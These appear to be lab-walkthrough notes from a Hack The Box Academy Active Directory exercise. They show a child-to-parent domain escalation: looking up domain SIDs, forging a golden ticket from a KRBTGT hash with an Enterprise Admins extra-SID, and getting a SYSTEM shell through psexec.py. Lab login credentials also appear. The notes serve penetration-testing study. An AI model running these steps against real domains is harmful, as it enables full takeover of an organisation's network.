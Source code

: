 2) Looking for the Domain SID
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268

3) Grabbing the Domain SID & Attaching to Enterprise Admin's RID
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)

4) Constructing a Golden Ticket using ticketer.py
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

--> The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
--> The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
--> The name of a target user in the child domain (does not need to exist!): hacker
--> The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

5) Setting the KRB5CCNAME Environment Variable
export KRB5CCNAME=hacker.ccache 

6) Getting a SYSTEM shell using Impacket's psexec.py
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> hostname
ACADEMY-EA-DC01

### Escalating from child to parent domain using raiseChild.py

Performing the Attack with raiseChild.py
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

/!\ : be careful when running any sort of "autopwn" script like this




## LAB WINDOWS

xfreerdp /u:htb-student_adm /p:"HTB_@cademy_stdnt_admin!" /v:$TARGET

cd c:\tools
Import-Module .\PowerView.ps1
Get-DomainSID
S-1-5-21-2806153819-209893948-922872689
